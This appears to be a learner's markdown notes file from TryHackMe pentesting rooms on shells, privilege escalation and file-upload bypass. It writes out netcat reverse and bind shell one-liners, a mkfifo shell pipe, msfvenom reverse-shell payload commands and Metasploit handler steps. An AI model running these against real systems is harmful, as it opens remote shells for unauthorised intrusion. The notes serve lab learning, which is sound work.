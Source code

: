 # R

* Remember for web/general/security
* .todo: metasploit dns
* .todo: web
* web general | terminology | URL may have to be moved
* explose hacking_process

<hr>

## Prev esc

https://tryhackme.com/room/linprivesc
=> hint/notes
=> network

* https://tryhackme.com/room/introtoshells
* If there are tools not installed on your target: https://github.com/andrew-d/static-binaries
* nc ip port -e /bin/bash (rev shell)
* nc -lvnp port -e /bin/bash (bind shell)
* this is not included in most versions of netcat
* `mkfifo /tmp/f; nc XXX < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f` (listener for our wxw shell)
* https://tryhackme.com/room/introtoshells (Windows)
* https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#netcat-traditional
* `msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>`
* staged reverse shell payloads and stageless
* exploit/multi/handler
  * It's essential if you want to use Meterpreter shells, and is the go-to when using staged payloads
  * `set PAYLOAD X`
  * `exploit -j`
* socat is a sort of ncat+more, but not installed by default, and harder to learn.
  * Read again the section: https://tryhackme.com/room/introtoshells
  * Can encrypt, may bypass an IDS: https://tryhackme.com/room/introtoshells
* Socat: transfer the socat binary
* Reverse shells/... note lasty

<hr>

## Overconfidence

--- https://tryhackme.com/room/rrootme

* `msfvenom -p php/reverse_php LHOST=tun0 LPORT=4455 -o revshell.php`
* exploit/multi/handler
* `msfvenom -p php/meterpreter/reverse_tcp LHOST=tun0 LPORT=4455 -o revshell2.php`
* `msfvenom -p php/meterpreter_reverse_tcp LHOST=tun0 LPORT=4455 -o revshell3.php5`
* `sudo bash -c "id"`
* https://www.revshells.com/
* TL;DR. Nothing explained to improve the shell worked. Could not run python commands, the shell was crashing. Had to use a web shell to run python commands. The meterpreter didn't work "as expected". The reverse tcp worked but it wasn't a good experience.
* writeups

--- https://tryhackme.com/room/vulnversity

* Capture a request uploading a file
* Intruder to test which filetype is not blocked
* `msfvenom -p php/reverse_php LHOST=tun0 LPORT=4444 -o mrevshell.phtml`
  * No one can make it work!!!
* `msfvenom -p php/meterpreter/reverse_tcp LHOST=tun0 LPORT=4444 -o mrevshell_php_rtcp.phtml`

```
set LHOST tun0
set PAYLOAD payload/php/meterpreter/reverse_tcp
exploit -j
sessions -u 1
sessions -i 2
```